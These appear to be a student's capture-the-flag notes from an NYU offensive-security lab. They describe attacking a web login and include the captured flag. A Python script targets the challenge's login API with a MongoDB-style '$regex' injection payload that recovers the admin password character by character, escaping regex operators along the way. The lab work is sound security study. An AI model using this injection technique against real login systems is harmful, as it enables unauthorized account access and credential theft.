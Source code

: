 		- ?username=`<your username>`
		- http://offsec-chalbroker.osiris.cyber.nyu.edu:10001/profile?username=a
		- what if I try: http://offsec-chalbroker.osiris.cyber.nyu.edu:10001/profile?username=admin
			- Unauthorized.
			- So there must be some checking that I don't see in the URL? Because it is a POST request I don't see for example the password variable?
			- How to view POST vars?
	- Pitfalls!!!
		- When testing chars with regex expressions, be careful when testing regex special operator chars like * and ?
			- in the list of testable chars, make sure to escape special regex characters with a backslash so that we are testing it as a literal and not using it as a regex 
				- That is why in the previous chal you were getting weird results of chars returning as * or ?. Because they serve as regex operators and match
	- flag:
		- flag{y0u_h4v3_n0w_4cc3ss_t0_nucl34r_w34p0n_0000000000000000}

```python
import requests
import string

alpha_num = list(string.ascii_lowercase + string.ascii_uppercase + string.digits + '_' + ' ' + '{' + '}' + '!' + string.punctuation + "")
# List of regex operators
regex_operators = [".", "^", "$", "*", "+", "?", "{", "}", "[", "]", "\\", "|", "(", ")"]
# Escape regex operators by prepending a backslash
escaped_alpha_num = []

for char in alpha_num:
	if char in regex_operators:
		escaped_alpha_num.append("\\" + char) # Escape the operator
		# two backslashes bc the first backslash is to escape the 2nd backslash
		# the 2nd backslash is responsible for escaping the char
	else:
		escaped_alpha_num.append(char) # Keep non-operators as they are

alpha_num = escaped_alpha_num

url = "http://offsec-chalbroker.osiris.cyber.nyu.edu:10000/api/login"
headers = {
"Accept-Language": "es-ES,es;q=0.9",
"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36",
"Content-Type": "application/json",
"Accept": "*/*",
"Origin": "http://offsec-chalbroker.osiris.cyber.nyu.edu:10000",
"Referer": "http://offsec-chalbroker.osiris.cyber.nyu.edu:10000/",
"Accept-Encoding": "gzip, deflate, br",
"Connection": "keep-alive"
}
cookies = {
"CHALBROKER_USER_ID": "hw3172"
}

i = 0
char = alpha_num[i]
data = {
# I registered an account: username "a" pw "a" see if regex works - yep!
"username": "admin",
"password": "s0m3!!_s3cur3$#@_p4ss" # final admin password we brute-forced
# "password": {"$regex": f"^s0m3!!_s3cur3\$#@_p4ss{char}"}
}

response = requests.post(url, json=data, headers=headers, cookies=cookies)
```